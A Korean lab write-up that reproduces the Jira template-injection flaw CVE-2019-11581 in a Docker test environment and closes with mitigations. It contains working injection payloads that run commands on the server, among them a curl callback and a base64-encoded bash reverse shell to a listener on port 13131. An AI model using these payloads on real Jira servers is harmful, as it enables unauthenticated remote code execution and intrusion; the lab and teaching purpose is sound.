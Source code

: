Atlassian Jira 템플릿 삽입 취약점(CVE-2019-11581)을 악용한 리버스 쉘 공격

Atlassian Jira는 기업에서 널리 사용되는 프로젝트 및 트랜잭션 추적 도구로 결함 추적, 고객 서비스, 요구 사항 수집, 프로세스 승인, 작업 추적, 프로젝트 추적 및 민첩한 관리와 같은 작업 분야에서 널리 사용됩니다. 여러 버전 전에 템플릿 주입을 이용한 임의의 명령을 실행이 가능합니다.：

- 4.4.x
- 5.x.x
- 6.x.x
- 7.0.x
- 7.1.x
- 7.2.x
- 7.3.x
- 7.4.x
- 7.5.x
- 7.6.x before 7.6.14 (the fixed version for 7.6.x)
- 7.7.x
- 7.8.x
- 7.9.x
- 7.10.x
- 7.11.x
- 7.12.x
- 7.13.x before 7.13.5 (the fixed version for 7.13.x)
- 8.0.x before 8.0.3 (the fixed version for 8.0.x)
- 8.1.x before 8.1.2 (the fixed version for 8.1.x)
- 8.2.x before 8.2.3 (the fixed version for 8.2.x)

참고자료:

- https://confluence.atlassian.com/jira/jira-security-advisory-2019-07-10-973486595.html
- https://jira.atlassian.com/browse/JRASERVER-69532
- https://mp.weixin.qq.com/s/d2yvSyRZXpZrPcAkMqArsw
- https://blog.csdn.net/whatday/article/details/111463939
- https://cloud.tencent.com/developer/article/1526557
- https://blog.csdn.net/qq_45746286/article/details/128774872
- https://github.com/vulhub/vulhub/tree/master/jira/CVE-2019-11581

## 환경 구축

CVE-2019-11581 경로에서 터미널 실행

Jira Server 8.1.0 시작：
```
docker compose up -d
```
![](images/1.png)
환경이 시작된 후 http://localhost:8080 설치 가이드로 들어가 "한국어"로 전환
        - 만약 localhost가 안 된다면 http://your-ip:8080
        
![](images/2.png)
VPS 조건에서 "Set it to me"(첫 번째 항목)를 선택한 다음 Atlassian 공식으로 이동하여 Jira Server 테스트 인증서를 신청(Data Center 및 Addons 선택 안 함):

![](images/3.png)
설치 진행(작은 메모리 VPS 단계는 설치에 실패하거나 시간이 오래 걸릴 수 있으므로 4GB 이상의 메모리 공간 권장)

![](images/4.png)  
SMTP 이메일 서버 추가 `http://localhost:8080/secure/admin/AddSmtpMailServer!default.jspa`

![](images/5.png)
정상적으로 설정이 됐는지 확인

시스템 설정을 입력 `http://localhost:8080/secure/admin/ViewApplicationProperties.jspa` 로 이동

![](images/6.png)
우측의 설정편집 클릭

![](images/7.png)
"관리자에게 연락 양식"을 ON으로 변경

![](images/8.png)
저장

![](images/9.png)
변경 확인


## 취약점 재연

PoC는 CVE-2019-3396과 동일하게 진행
```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('calc').toString()
```

원래 취약점에서는 계산기를 띄우지만 Linux는 calc가 없으므로 whoami로 변경

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('whoami').toString()
```

PoC를 직접 하려면 `poc.py`를 실행하거나 `http://localhost:8080/secure/ContactAdministrators!default.jspa`에서 입력

![](images/10.png)
로그아웃시 '관리자 연락 페이지'로 쉽게 이동 가능함

![](images/11.png)
해당 poc 입력 후 send

![](images/12.png)
smtpd의 로그를 확인해보면 성공적으로 메일이 전송됨



### 추가1 touch
직관적으로 와닿지 않으니 조금 더 해보자
```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('touch RCE').toString()
```
![](images/13.png)
jira 서버에서 ls를 쳐보면 RCE라는 파일이 없음

![](images/14.png)
'tocuh RCE'를 넣고 send

![](images/15.png)
만약 mtpd에 데이터가 표시되지 않으면 메일 대기열 확인 `http://localhost:8080/secure/admin/MailQueueAdmin!default.jspa`

![](images/16.png)
전송이 완료되었다면 다시 jira 서버에서 ls 입력
RCE라는 파일이 생성되어 있음


### 추가2 curl
```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec("curl your-ip:13131").waitFor()
```
![](images/17.png)
nc 13131 포트 수신 대기

![](images/18.png)
curl로 요청

![](images/19.png)
수신

### 추가3 리버스쉘
```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec("bash -c {echo,YmFzaCAtaT4mL2Rldi90Y3AvMTcyLjMwLjEuMjYvMTMxMzEgMD4mMQ==}|{base64,-d}|{bash,-i}").waitFor()
```
![](images/20.png)
Runtime.getRuntime().exec()가 파이프라인 명령어를 실행할 수 없으므로 exec 명령어를 base64로 인코딩

![](images/21.png)
13131포트로 수신 대기

![](images/22.png)
위에서 복사한 poc로 전송

![](images/23.png)
쉘 획득

![](images/23.png)
ls 입력



### 정리
 - 이 SSTI취약점은 Jira에 SMTP 서버가 구성되어 있고, ('관리자에게 연락 양식'이 활성화되어 있거나, 공격자가 'Jira 관리자'계정에 접근 권한을 가지고 있어야 함).
 
 '관리자에게 연락 양식'이 활성화된 경우
 - 공격자는 인증없이 이 취약점을 악용할 수 있음
 'Jira 관리자 계정'에 접근 권한을 가지고 있는 경우
 - 시스템에서 SMTP로 메일을 보낼 수 있는데 여기서 악용할 수 있음
 두 경우 모두 공격자가 악용하면 취약한 버전의 Jira Server 혹은 Data Center를 실행하는 시스템에서 RCE가 가능해짐

### 취약한 버전을 업데이트 할 수 없는 경우
 - '관리자에게 연락 양식(Contact Administrator Form)' 비활성화
 - /secure/admin/SendBulkMail!default.jspa 접근 제한

